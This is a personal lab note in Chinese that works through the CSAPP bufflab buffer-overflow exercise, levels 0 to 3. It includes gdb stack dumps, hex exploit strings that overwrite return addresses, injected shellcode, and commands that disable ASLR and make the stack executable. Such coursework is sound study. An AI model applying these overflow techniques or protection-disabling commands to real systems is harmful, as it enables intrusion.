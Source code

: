 ```yaml
---

类型: 笔记
创建日期: 2024-05-23
修改日期: 2024-05-23
---
```

## level 0 Candle
`(gdb) p/x &smoke`
`$1 = 0x8048e20`

单步调试机器指令 `stepi` `si`
```
Breakpoint 2, 0x08048ff1 in getbuf ()

(gdb)  info registers esp
esp            0xffffb070          0xffffb070
(gdb)  info registers ebp
ebp            0xffffb088          0xffffb088

(gdb) x/16xw $esp
0xffffb070:     0xffffb07c      0xf7ef8550      0x00000000      0x65646f77
0xffffb080:     0x0000616d      0x0804b5c0      0xffffb0a8    **0x0804901e**

(gdb) x/1xw $ebp
0xffffb0a8 
```
0x0804901e就是test中调用get_buf的下一条指令地址，要将其改为我们要的smoke地址0x8048e20，小端存储低地址在前。
我一直在想的是要保存好旧的ebp的那块区域，不然ebp无法正确返回到上一个栈。
想错了，ebp，esp中存放的是地址值，而我会覆盖的是地址值里的内容。
栈的扩张和收缩都是由ebp，esp（寄存器）传递自己内部保存的地址值整的，~~期间是不会去访问地址值内的内容的~~。（是会访问的，leave时要将旧ebp值弹回ebp，所以ebp里的值会出问题。
> leave：使栈做好返回准备，等价于
	mov %ebp，%esp
	pop %ebp

但是ret指令会把返回地址弹回esp，如果把此栈帧空间全部覆盖了，程序跳转是没问题的。**而且去下一个函数中执行时上来先push ebp，其实不会有影响**

要想覆盖掉返回地址，只需要看创建现在这个栈帧时分配了多大的空间，直接把对应得返回地址给覆盖了。


通过，构造字符串如下
`31 31 31 31 31 31 31 31 c0 b5 04 08 a8 b0 ff ff 1e 90 04 08`

```

Breakpoint 2, 0x08048fe6 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x00000000      0x00000004      0x0804b5c0      0xffffb0a8
0xffffb08c:     0x0804901e      0x00000003      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) c
Continuing.

Breakpoint 1, 0x08048ff1 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x04030201      0x08070605      0x12111009      0xffffb0a8
0xffffb08c:     0x08048e20      0x00000000      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) 
```
问题：上一个函数的传参3为什么也没了
解答：经过测试发现是最后还添加一个0x00，刚好覆盖了
## level 1 Sparkler
`fizz`函数地址`08048dc0`
函数中`8048dc7:	8b 5d 08  mov 0x8(%ebp),%ebx  ; 入参int val`
要在ebp + 8 位置放好字符串，下图展示如何确定此位置
![[B6E3A24C5F56A69DF646F52EF8BC9CAA.png]]
`01 02 03 04 05 06 07 08 09 10 11 12 00 00 00 00 c0 8d 04 08 00 00 00 00 dd dd 68 57`
## Level 2 Firecracker
Bang地址`08048d60 <bang>:`
`mov    0x804a1dc,%eax                ; <global_value>`
`cmp    0x804a1cc,%eax                ; <cookie>`
首先要修改程序堆栈的可执行属性，然后关掉系统的栈地址随机化，否则每一次的缓冲区位置都不相同，无法通过缓冲区溢出跳转到此固定的缓冲区位置执行，即如下命令：
```shell
apt-get install execstack
execstack -s bufbomb
sudo sysctl -w kernel.randomize_va_space=0
```
打断点查看gets函数的传参地址
`(gdb) x $eax`
`0xffffb07c:     0x00000000`
构建栈上运行的代码：
```
movl $0x804a1cc, %eax
movl %eax, $0x804a1dc       ; 将cookie地址传给global_value
pushq $0x08048d60           ; 返回Bang运行
retq
```

转为汇编
```
vim bang.s
gcc -m32 -c bang.s
objdump -d bang.o > bang.txt
cat bang.txt

bang.o：     文件格式 elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   a1 cc a1 04 08          mov    0x804a1cc,%eax
   5:   a3 dc a1 04 08          mov    %eax,0x804a1dc
   a:   68 60 8d 04 08          push   $0x8048d60
   f:   c3                      ret  

```


```
joseph@LAPTOP-E1IU5B7P:~/CSAPP/bufflab$ ./bufbomb -t SA23225138 < exploit-raw.txt 
Team: SA23225138
Cookie: 0x5768dddd
Type string:Bang!: You set global_value to 0x5768dddd
sh: 1: /usr/sbin/sendmail: not found
Error: Unable to send validation information to grading server
```

## level 3 dynamic
```
a1 cc a1 04 08 68 1e 90 04 08 c3 00 a8 b0 ff ff 7c b0 ff ff
```


## 要点
![[Pasted image 20240526214127.png]]
### level 0
只需要覆盖getbuf原本的返回值
### level 1
覆盖getbuf的返回值，对于入参还要将其放在对应的地方
### level 2
要栈上执行指令，那么需要将返回值修改为指令序列头部，即buf首地址。
指令内容：将cookie的值放入global_value，并push函数地址，这样执行完指令后跳转
### level 3
要栈上执行指令，那么需要将返回值修改为指令序列头部，即buf首地址。
指令内容：将cookie的值放入eax，并push下一条执行的地址，这样执行完指令后跳转
